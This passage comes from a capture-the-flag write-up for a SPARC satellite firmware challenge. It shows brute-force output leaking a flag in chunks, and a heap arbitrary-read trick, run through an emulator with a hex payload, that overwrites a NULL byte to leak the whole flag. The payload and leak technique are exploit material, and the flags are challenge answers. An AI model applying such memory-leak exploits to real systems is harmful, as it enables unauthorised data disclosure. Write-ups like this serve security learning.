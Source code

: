 ```python
```

```console
$ python bf_flag_for_sun_sat_again.py
b'flag{sie'
b'rra22284'
b'quebec:G'
b'PzI0dVjo'
b'rFhUONdq'
b'Q6slvaj3'
b'4oaAFLiK'
b'f__zjAU0'
b'_FiBn1tT'
b'C595org4'
b'ujMkuaDF'
b'9uIDFaPn'
b'WG5xE5ts'
b'cjr4no}'
b''
b''
b''
b''
b''
final flag b'flag{sierra22284quebec:GPzI0dVjorFhUONdqQ6slvaj34oaAFLiKf__zjAU0_FiBn1tTC595org4ujMkuaDF9uIDFaPnWG5xE5tscjr4no}'
```

However when trying this flag, it would be spit out as incorrect. And also by relaunching the script I would get a different flag. I'm pretty sure the flag changes each time you request the remote service, which is a pretty neat anti-cheat measure: you can't just share the flag between teams, you also need to share tickets and the script to solve the challenge. 

Where's that leaves us? Well that mean we must find a way to spit out the whole flag in a single session. By fiddling some more with the heap, I finally noticed that if you trigger twice the same arbitrary read, the second time will overwrite our unfortunate NULL byte with the address of the last freed chunk and allow us to read the whole flag:

```console
$ python3 sparc_emulator_sun_sat_again.py --input "0801deadbeef000100250c0608204001e40c4001bf900c06080e00000040800000400302410801deadbeef000200250c0608204001e40c4001bf900c06080e0000004080000040030241"
(debug) puts @4001c028
puts(Mission Server: Running)
memcpy(0xcaca0088, 0xcaca004a, 0x8)
memcpy(0xcaca0040, 0xcaca004a, 0x8)
getInfo(len:0x3, index:0x0)
(debug) puts @4001bf90
puts(FLAG{No,)
(debug) puts @4001c230
puts(ACK)
memcpy(0xcaca0088, 0xcaca008a, 0x8)
memcpy(0xcaca0040, 0xcaca008a, 0x8)
getInfo(len:0x3, index:0x0)
(debug) puts @4001bf90
puts(FLAG{No,ÊÊ@s not in the firmware, that would have been too easy. But in the patched version it will be located here, so good that should help...?})
(debug) puts @4001c230
puts(ACK)
read(2) =
```
